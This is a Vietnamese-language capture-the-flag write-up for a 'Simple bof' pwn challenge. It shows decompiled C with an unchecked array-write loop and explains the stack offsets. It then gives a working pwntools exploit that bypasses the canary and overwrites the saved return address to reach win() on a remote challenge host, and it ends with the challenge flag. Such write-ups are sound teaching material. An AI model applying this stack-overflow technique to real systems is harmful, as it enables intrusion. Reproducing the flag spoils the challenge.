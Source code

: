 # Simple bof (pwn)

Check binary

<figure><img src="../../.gitbook/assets/image (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

Decompile bằng IDA

{% code lineNumbers="true" %}
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v5; // [rsp+8h] [rbp-98h] BYREF
  int i; // [rsp+Ch] [rbp-94h]
  _QWORD v7[16]; // [rsp+10h] [rbp-90h] BYREF
  __int64 v8; // [rsp+90h] [rbp-10h]
  unsigned __int64 v9; // [rsp+98h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  setup(argc, argv, envp);
  v8 = 1LL;
  printf("First useful number: 0x%x\n", &locret_40101A);
  printf("Second useful number %p\n", win);
  puts("How many magic numbers do you wanna tell me?");
  __isoc99_scanf("%d", &v5);
  puts("Ok.");
  for ( i = 0; i < v5; ++i )
  {
    printf("%d. ", (unsigned int)(i + 1));
    __isoc99_scanf("%lu", &v7[i]);
  }
  if ( v8 != 0xDEADBEEFDEADBEEFLL )
  {
    puts("Thanks a lot.");
    exit(0);
  }
  puts("Don't forget the canary.");
  return __readfsqword(0x28u) ^ v9;
}
```
{% endcode %}

Bài này không kiểm tra size ở line 15, nếu ta nhập số >16 -> ghi đè ra ngoài biến array v7 -> overflow

Qua quá trình debug mình thấy:

\+ biến v8 ở index 16

\+ stack canary ở index 17

\+ saved rip ở index 19 -> mình sẽ ghi đè thành địa chỉ của `ret` gadget ( leak ở line 12) -> rồi ghi đè địa chỉ hàm win ở index 20 ( bài này `no-pie` nên leak win không cần thiết lắm :))) ).

Script giải

```python
from pwn import *
from time import sleep
e=ELF("./simple_bof")
#p=e.process()
p=remote("45.122.249.68",10018)
#context.log_level='debug'
#gdb.attach(p,gdbscript="\nb *main+307")
p.recvuntil(b"First useful number: ")
sleep(1)
leak=p.recvuntil(b"\n").rstrip().decode()
sleep(1)
leak=int(leak,16)
log.info(hex(leak))
p.sendline(b"21")
sleep(1)
#pause()
for i in range(21):
    if i==16:
        p.sendline(str(0xDEADBEEFDEADBEEF).encode())
    #elif i==17:
    #    p.sendline('-'.encode())
    elif i==19:
        p.sendline(str(leak).encode())
    elif i==20:
        p.sendline(str(e.sym["win"]).encode())
    else:
        p.sendline('-'.encode())
    sleep(1)
p.interactive()

```

<figure><img src="../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

Flag: `W1{sUp3r_e4sY_b0f_74f2f624d3c92c1d739b6b0b238c0321}`





